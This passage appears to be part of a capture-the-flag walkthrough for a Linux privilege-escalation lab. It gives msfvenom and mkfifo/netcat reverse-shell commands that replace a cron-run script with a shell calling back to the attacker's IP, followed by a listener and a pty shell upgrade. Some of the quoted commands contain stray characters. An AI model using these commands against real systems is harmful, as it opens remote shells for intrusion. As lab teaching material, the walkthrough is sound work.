 ### Task 8 - Flag4

Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"*

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

> Make sure to use the attack system's IP in place of LOCALIP in the above payload

### Task 8 - Flag5

What directory is the "autoscript.sh" under?

```bash
cat /etc/crontab
```

### Task 8 - Flag6

Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

In the terminal on the **vulnerable** host, type in the following:

```bash
echo "mkfifo /tmp/<tmp filename>; nc <localip>:<port> 0</tmp/<tmp filename> | /bin/sh >/tmp/<tmp filename> 2>&1; rm │/tmp/<tmp filename>
```

> Make sure to respectively use whatever your payload output was from **Flag4**

### Task 8 - Flag7

Setup your netcat listener on the attack system by doing the following

```bash
nc -lvp <port>
```

To test that the autoscript.sh on the vulnerable system will provide a shell, you can execute the command in your terminal like below:

```bash
mkfifo /tmp/akolks; nc 10.8.9.42 8080 0</tmp/akolks | /bin/sh >/tmp/akolks 2>&1; rm │/tmp/akolks
```

> Again, make sure to respectively use the correct payload info on your system

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Will make the shell appear similar ot most terminal prompts
